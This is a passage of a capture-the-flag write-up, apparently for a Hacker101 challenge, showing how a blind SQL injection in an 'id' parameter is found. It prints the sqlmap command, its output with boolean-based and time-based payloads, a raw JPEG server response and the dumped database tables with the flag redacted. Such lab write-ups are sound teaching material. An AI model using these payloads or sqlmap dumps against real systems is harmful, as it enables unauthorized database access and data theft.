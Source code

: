 At this point I'm convinced our input is causing some kind of internal query (hopefully SQL) to error out, but we don't have access to the output. Passing `"1"` instead of `1` makes the server return something interesting:

```bash
����JFIF�����ExifMM*JR(1Z�ih��paint.net 4.1��zzUNICODECREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 90 ��C  #,%!*!&4'*./121%6:60:,010��C  0  00000000000000000000000000000000000000000000000000����"�� ���}!1AQa"q2���#B��R��$3br�
...
```

Passing `"2"` also returns a similar output, but passing something like `"100"` returns a not found status. I'm convinced that we can exploit this somehow, so let's turn to `sqlmap` to try all sorts of techniques for us.

## SQL Injection

```bash
$ sqlmap -u https://<subdomain>.ctf.hacker101.com/login?id=1 -p "id" --dump
...
[18:23:58] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 OR time-based blind (SLEEP)' injectable 
...
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 312 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 9950=9950

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: id=1 OR SLEEP(5)
---
[18:26:52] [INFO] the back-end DBMS is MySQL
```

And as we thought that endpoint was vulnerable to SQL injection! Here's the dump of the database:

```bash
Database: level5
Table: albums
[1 entry]
+----+---------+
| id | title   |
+----+---------+
| 1  | Kittens |
+----+---------+

Table: photos
[3 entries]
+----+------------------+--------+------------------------------------------------------------------+
| id | title            | parent | filename                                                         |
+----+------------------+--------+------------------------------------------------------------------+
| 1  | Utterly adorable | 1      | files/adorable.jpg                                               |
| 2  | Purrfect         | 1      | files/purrfect.jpg                                               |
| 3  | Invisible        | 1      | <flag> |
+----+------------------+--------+------------------------------------------------------------------+
```